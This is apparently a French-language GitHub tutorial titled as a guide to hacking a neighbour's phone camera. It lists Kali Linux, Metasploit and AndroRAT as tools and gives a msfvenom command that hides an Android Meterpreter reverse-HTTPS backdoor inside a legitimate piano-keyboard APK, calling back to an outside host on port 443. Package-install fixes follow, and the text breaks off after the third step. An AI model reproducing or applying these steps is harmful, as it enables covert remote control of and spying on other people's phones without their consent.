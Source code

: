 # Comment hacker la webcam du téléphone de votre voisin(e) ?

## Video d'explication

- [👨‍💻⚡📱HACKER LA CAMÉRA D'UN TÉLÉPHONE 👨‍💻⚡📱](https://youtu.be/PKodACO6b2M)
- [watch how Hackers Remotely Control Any phone?! protect your phone from hackers now!](https://youtu.be/QxRy9sVUMQU)

### Pour information ou aller plus loin

- [Comment hacker la webcam de votre voisin(e) ?](https://youtu.be/dY2296wBJ-Q)

## Prérequis

### Solution 1

- NE FONCTIONNE PAS SUR WINDOWS
- [Kali linux](../../KaliLinux/readme.md)
- [Piano keyboard 2022 APK](https://apkpure.com/piano-keyboard-2022/pl.piano.keyboard/download)
- [Metasploit](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)
  - [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
  - [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/)

### Solution 2

- [Kali linux](../../KaliLinux/readme.md)
- [AndroRAT](https://github.com/karma9874/AndroRAT)
  - python
    - Linux : `sudo apt-get install python3`
    - Windows : <https://www.python.org/downloads/release/python-3110/>
  - pip
    - Linux : `sudo apt install python3-pip`
    - Windows : `C:\Users\PCAlexandrePORT\AppData\Local\Programs\Python\Python311\Scripts\pip.exe`

## Explication

### Solution 1

1. Installer `Calculatrice Plus Android` (<https://calculatrice-plus.fr.malavida.com/android/download#google_vignette>)
2. `cd dossier_de_telechargement`
3. `msfvenom -x Piano\ keyboard\ 2022_25.12.40_Apkpure.apk -p android/meterpreter/reverse_https LHOST=formation.fr LPORT=443 -o formation.apk`
    - IF "Error: jarsigner not found. If it's not in your PATH, please add it."
        - `sudo apt-get update`
        - `sudo apt-get -y install apksigner`
        - `sudo apt-get -y install zipalign`
        - `apt-get install -y apktool`
        - `sudo apt-get install lib32stdc++6 lib32z1 lib32z1-dev`
